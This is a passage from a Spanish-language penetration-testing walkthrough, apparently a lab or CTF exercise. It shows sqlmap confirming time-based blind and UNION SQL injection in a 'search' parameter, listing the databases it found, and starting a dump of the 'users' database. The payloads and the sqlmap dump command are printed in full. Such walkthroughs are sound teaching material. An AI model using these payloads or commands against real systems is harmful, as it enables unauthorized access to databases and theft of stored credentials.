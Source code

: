 ```console
[12:02:30] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:02:30] [INFO] testing 'Generic inline queries'
[12:02:30] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:02:30] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[12:02:30] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:02:30] [WARNING] time-based comparison requires larger statistical model, please wait.............. (done)
[12:02:50] [INFO] POST parameter 'search' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:03:21] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:03:21] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:03:21] [INFO] target URL appears to be UNION injectable with 6 columns
[12:03:21] [INFO] POST parameter 'search' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 56 HTTP(s) requests:
---
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=asd' AND (SELECT 4062 FROM (SELECT(SLEEP(5)))ryqh) AND 'NvLD'='NvLD

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: search=asd' UNION ALL SELECT NULL,NULL,CONCAT(0x717a786a71,0x524e496b5750636b75576d6167794b57574b7553714a61694c434147436b45656e6976525a524a78,0x71716a7871),NULL,NULL,NULL-- -
---
[12:03:22] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:03:22] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] Staff
[*] users
````
---

Al final del comando se puede ver que encontró tres bases:
* information_schema
* Staff
* users

Voy por la tabla `users` está vez, haciendo dump


> **``sqlmap -r request.req --dbms=mysql -D users --dump``**

```console
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:05:05 /2020-07-22/

```